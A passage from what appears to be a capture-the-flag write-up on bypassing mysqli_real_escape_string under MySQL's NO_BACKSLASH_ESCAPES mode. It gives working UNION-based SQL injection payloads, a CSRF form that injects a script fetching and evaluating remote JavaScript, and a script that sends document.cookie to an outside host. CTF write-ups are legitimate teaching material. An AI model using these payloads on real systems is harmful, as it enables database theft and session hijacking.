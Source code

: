 After some more digging, I found out that there is indeed an option in mysql which allows one to disable using backslashes as escape characters. And after one more look at the Dockerfile, I noticed this on line 48:

    RUN printf '[...] sql_mode = "NO_BACKSLASH_ESCAPES"\n [...]' >> /etc/mysql/my.cnf [...]

So backslashes indeed do not act as escape characters. As far as I can tell, this actually makes escaping using quote doubling perfectly safe - but interestingly, it also activates a special mode in mysqli_real_escape_string, which makes it use quote doubling instead of backslashes to escape quotes. Crucially, however, only single quotes are doubled, so if double quotes are used to escape strings within the SQL statement, mysqli_real_escape_string provides no protection against SQL injection at all in the NO_BACKSLASH_ESCAPES SQL mode, as we can simply use the " char to close any string literal. From here, we can use, for example, the /tags/tags.php script, which executes the query `SELECT tags FROM windex WHERE url = "INPUT";` on line 62. We can simply pass `a" UNION SELECT flag from flag2 WHERE "" = "` as the url POST parameter without passing the tags parameter, which neatly presents us with the second part of the flag in the tags field of the resulting page. To send this request, we can use the following HTML page:

    <form action="http://localhost:1337/tags/tags.php" method="post"><input name="url"></input><input type="submit"></input></form>

Another SQL injection is present on the page /review/review.php, where we can set the startid and endid POST parameters. To send requests, a similar HTML page to the one above can be used:

    <form action="http://localhost:1337/review/review.php" method="post"><input name="startid"></input><input name="endid"></input><input type="submit"></input></form>

If we submit `1` as startid and `2 UNION SELECT flag, flag, flag, flag, flag, flag FROM flag1` as endid (no quotes, as the arguments themselves are not quoted either, and repeating flag six times as the reviewqueue table which is being selected from has six columns), we actually get an SQL error, as the result of the query is not directly visible on the page, but is instead used in another SQL query. This, however, is not actually a problem, since the error contains the first part of our flag, just with the first part (which is always the same - uiuctf) removed. Thus, we can copy the first part of the flag, add the second from the /tags/tags.php page, add uiuctf in the front and we have the fake flag.

# Putting it all together

First, in preparation, we should download a cookie editor extension for the browser we are using. Then, we need to get a server up and running with a public address, so that the real challenge instance can connect to it. From there, we need to upload the script.js file as well as the csrf html document and any server we are using. An example document usable for CSRF is as follows:


    # csrf.html
    <form action="http://127.0.0.1/submit/" method="post"><input name="url" value="<script>fetch(/http:\/\/192.0.2.15:8000\/script.js/.toString().substr(1,35)).then(res=>res.text()).then(res=>eval(res))</script>http://."></input></form>
    <script>document.getElementsByTagName('form')[0].submit()</script>

The script.js file can be as simple as:

    # script.js
    fetch('http://192.0.2.15:8000/pwn?cookie=' + document.cookie)
